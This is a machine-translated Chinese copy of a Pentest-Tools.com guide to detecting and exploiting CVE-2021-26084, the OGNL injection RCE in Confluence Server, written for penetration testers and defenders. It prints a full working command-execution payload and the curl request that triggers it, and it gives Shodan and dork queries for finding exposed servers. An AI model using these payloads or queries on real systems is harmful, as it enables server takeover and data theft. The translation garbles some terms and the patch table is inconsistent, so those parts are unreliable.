




# 如何检测和利用 CVE-2021-26084，合流服务器 RCE | Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/detect-exploit-cve-2021-26084-confluence-server-rce#2022-07-05T15:24:39.000Z>

像攻击者一样思考是正确的思维方式，可以帮助您更好地应对 RCE 漏洞的惊人增长。

作为一个圣灵降临者，你比任何人都清楚这一点。您也最适合利用您的经验和专业知识在恶意行为者之前检测暴露的关键资产。

为了帮助您帮助他人，在这本包含检测策略和缓解方法的实用指南中，我将探讨跨 Linux 和 Windows 的 Atlassian Confluence 服务器中的一个严重 RCE 漏洞。

让我们直入主题吧！

## **什么是合流？**

**Confluence** 是一款基于网络的企业协作软件，旨在存储、共享和处理不同的项目。它由**亚特兰蒂斯**开发，用 Java **编写。**虽然没有关于客户数量的公开数据，但我们可以有把握地假设，全球有成千上万的人将 Confluence 作为他们日常工作流程的一部分。

这也是我们决定针对这一特定漏洞推出测试指南的原因之一。



## **合流服务器 RCE·沃恩如何工作**

CVE-2021-26084 基于对象图导航语言(OGNL)注入。我们为 [OGNL 注射](https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts)提供了完整的指南，这样你就可以在需要的时候深入了解。

这个特殊的 Confluence Server 漏洞允许攻击者注入 OGNL 代码，并在运行该服务器的用户权限下执行该代码。如果启用了注册或创建新用户选项，则未经验证的用户可以向端点发送恶意负载，并为 Confluence 服务器创建新条目，如**/pages/Create page-enter variables . action**，从而触发可导致远程代码执行的漏洞。

可从恶意负载中提到的“query string”html 标记中检索已执行代码的输出。

## **易受攻击的合流服务器版本**

该安全问题被追踪为 [CVE-2021-26084](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26084) ，影响以下版本的 Confluence 服务器:

*   6.13.23 版之前的所有版本，

*   从 6.14.0 版到 7.4.11 版

*   从 7.5.0 版到 7.11.6 版

*   从 7.12.0 版到 7.12.5 版

根据公司[安全发布](https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html)。

## **CVE 的业务影响-2021-26084**

当成功利用时，该漏洞允许未经验证的攻击者获得**对目标** t 的完全控制，危及 Confluence 服务器使用的所有服务和数据库，并在内部网络中进行枢纽分析。

## **如何在您的环境中找到易受 CVE-2021-26084 攻击的目标**

为了帮助您的组织和客户避免恶意黑客利用该漏洞造成的巨大损失，我将展示三种方法来查找可能受其影响的实例。

### **使用 Shodan**

使用带有***X-Confluence-Request-Time***cookie 的 Shodan 搜索引擎将为有动机的攻击者揭示更多潜在目标:



在写这篇文章的时候，Shodan 透露了至少有 **12，342 个潜在易受攻击的服务器**。

### **使用谷歌呆子**

您还可以使用 Google Dorks 通过以下搜索查询来找出 Confluence 主机:

***inurl:/合流/页数***



### **使用 PublicWWW**

PublicWWW 是一个搜索引擎，你可以用它根据源代码内容、回复头、cookies 和使用的技术来搜索网站。您可以在这个搜索引擎中对 Shodan 查询使用我刚才提到的相同 cookie:

***X-合流-请求-时间***



找到目标后，就该验证哪些目标实际上是可利用的了，这样您就可以提供准确的测试报告，帮助以最有效的方式指导补救。

## **如何在道德黑客活动中手动利用 CVE-2021-26084**

为了利用 CVE-2021-26084 ，你需要创建一个简单的有效载荷，如下所示，并将其保存到一个文件中:

```
queryString="aaaaaaaa\\u0027+{Class.forName(\\u0027javax.script.ScriptEngineManager\\u0027).newInstance().getEngineByName(\\u0027JavaScript\\u0027).\\u0065val(\\u0027var isWin =java.lang.System.getProperty(\\u0022os.name\\u0022).toLowerCase().contains(\\u0022win\\u0022); var cmd = new java.lang.String(\\u0022<Command>\\u0022);var p = newjava.lang.ProcessBuilder(); if(isWin){p.command(\\u0022powershell.exe\\u0022, \\u0022/c\\u0022, cmd); } else{p.command(\\u0022bash\\u0022, \\u0022-c\\u0022, cmd); }p.redirectErrorStream(true);var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream());var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = \\u0022\\u0022; varoutput = \\u0022\\u0022; while((line = bufferedReader.readLine()) != null){output =output + line + java.lang.Character.toString(10); }\\u0027)}+\\u0027”
```

有效负载中使用的命令可以用于 Linux 和 Windows 操作系统，例如–ls–Linux 命令和–dir–Windows 命令有效负载看起来像:

```
queryString="aaaaaaaa\\u0027+{Class.forName(\\u0027javax.script.ScriptEngineManager\\u0027).newInstance().getEngineByName(\\u0027JavaScript\\u0027).\\u0065val(\\u0027var isWin =java.lang.System.getProperty(\\u0022os.name\\u0022).toLowerCase().contains(\\u0022win\\u0022); var cmd = new java.lang.String(\\u0022ls\\u0022);var p = newjava.lang.ProcessBuilder(); if(isWin){p.command(\\u0022powershell.exe\\u0022, \\u0022/c\\u0022, cmd); } else{p.command(\\u0022bash\\u0022, \\u0022-c\\u0022, cmd); }p.redirectErrorStream(true);var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream());var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = \\u0022\\u0022; varoutput = \\u0022\\u0022; while((line = bufferedReader.readLine()) != null){output =output + line + java.lang.Character.toString(10); }\\u0027)}+\\u0027”
```

对于 **ls** Linux 命令和:

```
queryString="aaaaaaaa\\u0027+{Class.forName(\\u0027javax.script.ScriptEngineManager\\u0027).newInstance().getEngineByName(\\u0027JavaScript\\u0027).\\u0065val(\\u0027var isWin =java.lang.System.getProperty(\\u0022os.name\\u0022).toLowerCase().contains(\\u0022win\\u0022); var cmd = new java.lang.String(\\u0022dir\\u0022);var p = newjava.lang.ProcessBuilder(); if(isWin){p.command(\\u0022powershell.exe\\u0022, \\u0022/c\\u0022, cmd); } else{p.command(\\u0022bash\\u0022, \\u0022-c\\u0022, cmd); }p.redirectErrorStream(true);var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream());var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = \\u0022\\u0022; varoutput = \\u0022\\u0022; while((line = bufferedReader.readLine()) != null){output =output + line + java.lang.Character.toString(10); }\\u0027)}+\\u0027”
```

对于 **dir** Windows 命令

使用以下命令，您可以触发 RCE:

```
curl -XPOST -d @<payload_file> http(s)://<Target_ip>:<port>/pages/createpage-entervariables.action?SpaceKey=x
```

注入命令的输出可能反映在先前在有效负载构造中使用的 queryString HTML 资源中。

如果你想尝试另一种更快的开发策略，看看 Pentest-Tools.com 吧。

## **如何减轻 CVE-2021-26084**

我们建议在您的环境中应用可用的补丁，因为 Atlassian 已经发布了针对 CVE-2021-26084 的[补丁。](https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html)

| **产品构建** | **固定版本** |
| --- | --- |
| Confluence 6.13.x 及 6.13 之前的所有版本 | 6.13.23 |
| Confluence 7.4.x 及 7.4.0 之前的所有版本 | 7.4.11 |
| Confluence 7.11.x 及 7.4.0 之前的所有版本 | 7.11.6 |
| Confluence 7.12.x 及 7.4.0 之前的所有版本 | 7.12.5 |

随着 RCE 漏洞到处出现，你需要所有你能得到的帮助来控制局面，并确保你的同事或客户得到准确的报告。从我们的道德黑客之家到您的邮箱，直接获取新的测试指南！